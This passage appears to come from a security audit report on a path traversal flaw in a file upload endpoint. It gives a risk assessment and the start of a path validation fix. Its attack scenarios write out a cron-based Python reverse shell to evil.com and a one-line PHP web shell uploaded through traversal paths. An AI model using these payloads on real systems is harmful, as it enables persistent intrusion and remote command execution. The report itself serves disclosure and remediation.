 ### Scenario 2: Backdoor Installation
```python
# 1. Upload backdoor to cron.d
POST /api/upload
folder: "../../../../etc/cron.d/"
file: malicious_cron

# 2. Create persistent access
* * * * * root /usr/bin/python3 -c 'import socket,subprocess;s=socket.socket();s.connect(("evil.com",4444));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

### Scenario 3: Web Shell Deployment
```bash
# Upload PHP shell to web root
POST /api/upload
folder: "../../../../var/www/html/"
file: shell.php containing <?php system($_GET['cmd']); ?>
```

---

## Risk Assessment

| Factor | Rating | Details |
|--------|--------|---------|
| **Exploitability** | Trivial | Simple HTTP requests, no authentication |
| **Attack Complexity** | Very Low | Basic path traversal knowledge |
| **Privileges Required** | None | Public endpoints |
| **User Interaction** | None | Direct exploitation |
| **Scope** | Changed | Full filesystem access |
| **Confidentiality Impact** | Total | All files readable |
| **Integrity Impact** | Total | Arbitrary file write/delete |
| **Availability Impact** | High | Critical file deletion |

---

## Remediation Recommendations

### IMMEDIATE Actions (24 hours):

1. **Path Validation Function:**
```python
import os

def validate_path(user_path, base_path):
    """Securely validate paths"""
    # Resolve to absolute path
    requested_path = os.path.abspath(os.path.join(base_path, user_path))
    
    # Ensure path is within base directory
    if not requested_path.startswith(os.path.abspath(base_path)):
        raise ValueError("Path traversal attempt detected")
    
    # Check for symlinks
    if os.path.islink(requested_path):
        raise ValueError("Symbolic links not allowed")
    
```